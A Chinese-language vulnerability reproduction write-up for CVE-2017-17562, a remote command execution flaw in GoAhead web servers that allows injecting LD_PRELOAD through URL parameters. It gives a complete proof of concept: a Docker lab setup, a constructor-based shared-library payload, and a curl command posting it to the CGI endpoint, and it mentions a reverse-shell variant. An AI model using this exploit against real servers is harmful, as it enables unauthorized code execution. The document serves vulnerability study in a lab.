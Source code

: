 （CVE-2017-17562）GoAhead 远程命令执行漏洞
==========================================

一、漏洞简介
------------

GoAhead在接收到请求后，将会从URL参数中取出键和值注册进CGI程序的环境变量，且只过滤了`REMOTE_HOST`和`HTTP_AUTHORIZATION`。我们能够控制环境变量，就有很多攻击方式。比如在Linux中，`LD_`开头的环境变量和动态链接库有关，如`LD_PRELOAD`中指定的动态链接库，将会被自动加载；`LD_LIBRARY_PATH`指定的路径，程序会去其中寻找动态链接库。

我们可以指定`LD_PRELOAD=/proc/self/fd/0`，因为`/proc/self/fd/0`是标准输入，而在CGI程序中，POST数据流即为标准输入流。我们编译一个动态链接库，将其放在POST
Body中，发送给`http://www.0-sec.org/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0`，CGI就会加载我们发送的动态链接库，造成远程命令执行漏洞。

二、漏洞影响
------------

GoAhead 3.6.5之前的版本（2.5.0 -- 3.6.4）

三、复现过程
------------

启动漏洞环境：

    docker-compose up -d

启动完成后，访问`http://your-ip:8080/`即可看到欢迎页面。访问`http://your-ip:8080/cgi-bin/index`即可查看到Hello页面，即为CGI执行的结果。

### 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。所以在实战中，如果对方是一个智能设备，你可能需要交叉编译。因为Vulhub运行在`Linux x86_64`的机器中，所以我们直接用Linux
PC编译即可。动态链接库源码：

    #include <unistd.h>

    static void before_main(void) __attribute__((constructor));

    static void before_main(void)
    {
        write(1, "Hello: World!\n", 14);
    }

这样，`before_main`函数将在程序执行前被调用。编译以上代码：

    gcc -shared -fPIC ./payload.c -o payload.so

将payload.so作为post body发送：

    curl -X POST --data-binary @payload.so "http://www.0-sec.org:8080/cgi-bin/index?LD_PRELOAD=/proc/self/fd/0" -i 

可见，`Hello: world!`已被成功输出，说明我们的动态链接库中的代码已被执行：![1.png](./.resource/(CVE-2017-17562)GoAhead远程命令执行漏洞/media/rId25.png)编译一个反弹shell的代码，成功反弹shell：![2.png](./.resource/(CVE-2017-17562)GoAhead远程命令执行漏洞/media/rId26.png)
